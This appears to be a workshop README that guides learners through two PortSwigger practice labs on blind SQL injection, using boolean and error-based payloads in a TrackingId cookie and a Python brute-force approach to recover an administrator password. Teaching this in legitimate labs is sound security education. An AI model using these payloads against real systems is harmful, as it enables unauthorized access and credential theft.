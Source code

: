 # sql-injection-lab

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses does not contain any SQL query result. So a UNION attack wont work.
Instead, we can infer the results indirectly based on the application's behavior, such as changes in response times or error messages.

In this workshop we will solve two blind SQL injeciton labs, Blind SQL injection with conditional responses and error-based SQL injection
The goal for both labs is to log in as the administrator user. 

## Blind SQL injection with conditional responses 
Go to the lab website and access the lab.
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

The website we are hacking is a webshop and it has a SQL injection vulnerability in the TrackingId cookie!
Assuming the cookie looks like this :

``` 
TrackingId=xyz, 
```

Modify it to the following. You can use BurpSuite to modify the cookie, or simply use the DevTools in your browser.

``` 
TrackingId=xyz' AND '1'='1
```

Notice that there is a "Welcome Back" message in the top right corner. Now change it to the following:

``` 
TrackingId=xyz' AND '1'='2
```

Notice that the "Welcome Back" text disappears. This shows that we can use a boolean condition to infer results. If the expression, in this case, '1'='1, evaluates to true, the "Welcome Back" text is shown. If it evaluates to false, the text dissapears. Study and change the trackingId to the following:

``` 
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
**Think about the following questions:**

* What does the above query do?
* Does the Welcome text appear in the response or not? 
* Why does the "a" in the end not have a closing '

<br/><br/>



The rest of the lab I leave to you. The goal is to:
1. First figure out the length of the administrator password
2. Second figure out the full password. **HINT** to get the first element of a value in sql you can do `` SELECT SUBSTRING(password,1,1) ``, To get the second value you can do `` SELECT SUBSTRING(password,2,1) `` etc. The password contains only lowercase, alphanumeric characters.

The lab can be solved using Burpsuite intruder, but this throttled to the extend that it will take hours to bruteforce the password, instead create a python script!
We can send GET request with python using the requests library. 
You need to be logged in to access the portswigger lab so dont forget to set the session cookie:

``` python
import requests

cookies = {"TrackingId": "xyz",
          "session":  "session1"}

response = requests.request("get","https://example.com/" , cookies=cookies)

print(str(response.content))
```


<details>
  <summary>Hint 1</summary>
  To check if the first letter of the administrator password is an 'a', append the following to the TrackerId cookie : 

  ```
   ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a  
  ```
</details>

<details>
  <summary>Hint 2</summary>
           Use the SQL code from Hint 1 and create a python script that iterates over all possible password letters, with each iteration perform a get request to lab site. If the response contains the word "Welcome", we have found the first letter of the password. Continue to find the second letter and so on until the entire password is found! 
</details>

## Error-based SQL injection

Go to the lab website and access the lab.
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

The website is the same as the previous lab and has again a SQL injection vulnerability in the TrackingId cookie. But this time the application does not respond any differently based on whether the query returns any rows. Meaning there is no "Welcome Back" text in the response. 

Assuming the cookie looks like this :

``` 
TrackingId=xyz
```
Modify it to the following:

``` 
TrackingId=xyz'
```

Notice that an error message is received and the status code is 500. We have introduced an syntax error and the webserver responded accordingly. The idea here is that we want to modify the injected query so that it causes a database error only if a condition is true. Study the following query:
``` 
' AND (SELECT CASE WHEN LENGTH(password) > 1 THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'--"
```

**Think about the following questions:**
error
* What does the above query do?
* What happens if you change the 1 in `` LENGTH(password) > 1 `` to 100 ? 
* Why does it end with 'a'--?

Solve the rest of the lab, using a similar method as the first lab:
1. First figure out the length of the administrator password
2. Second figure out the full password. **HINT** This lab uses an Oracle database and this has slightly different syntax, to get the first element of a value it uses `` SUBSTR(password,1,1) ``.

<details>
  <summary>Hint 1</summary>
  To check if the first letter of the administrator password is an 'a', append the following to the TrackerId cookie. 

  ```
   ' AND (SELECT CASE WHEN SUBSTR(password,1,1) = 'a' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'--",
  ```
If the first letter of the password is 'a' the website returns an 500 because it tried to divide 1 with 0 which causes an error.
</details>

<details>
  <summary>Hint 2</summary>
           Use the SQL code from Hint 1 and modify the python script created in the previous lab so that it checks if the response code is 500 instead of checking if the reponse contains the word "Welcome"
</details>


